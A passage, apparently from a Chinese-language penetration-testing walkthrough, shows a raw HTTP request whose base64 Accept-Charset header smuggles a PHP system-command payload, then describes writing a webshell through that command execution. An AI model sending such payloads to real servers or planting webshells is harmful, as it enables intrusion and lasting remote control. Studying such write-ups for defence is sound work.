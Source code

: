 ```php
GET /phpinfo.php HTTP/1.1

Host: 172.31.40.136:8080

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

X-Forwarded-For: 172.31.40.136

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip,deflate

Accept-Charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7

Connection: close

Upgrade-Insecure-Requests: 1
```

![图片.png](assets/1698900845-488f34d6af5a750a4d4765edc11d4e2d.png)

此时能够执行命令，又知道web绝对路径，利用命令执行写入webshell，这里用的是powershell命令写入，更简便的方法是利用PHP写文件函数写入：

![图片.png](assets/1698900845-ee4225f9f48c2ed1235d5660ce63af01.png)

